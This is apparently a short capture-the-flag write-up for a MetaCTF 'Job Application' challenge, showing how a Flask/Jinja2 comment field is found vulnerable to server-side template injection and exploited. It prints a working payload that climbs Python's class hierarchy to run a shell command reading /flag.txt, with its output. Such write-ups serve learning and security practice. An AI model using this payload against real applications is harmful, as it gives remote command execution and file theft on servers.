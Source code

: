 ### Job Application

Authors mentioned that the application uses flask with jinja2. So i figured it must use ssti<br>
I put {{7*7}} into all the fields and only the comment field showed 49<br>
They also mentioned flag was at /flag.txt<br>

Payload:``` {{dict.mro()[-1].__subclasses__()[365]('cat /flag.txt',shell=True,stdout=-1).communicate()[0]}}```<br>
Output:``` b'MetaCTF{somet1mes_th3_r3nderer_goe$_on_b3nder}\n'```
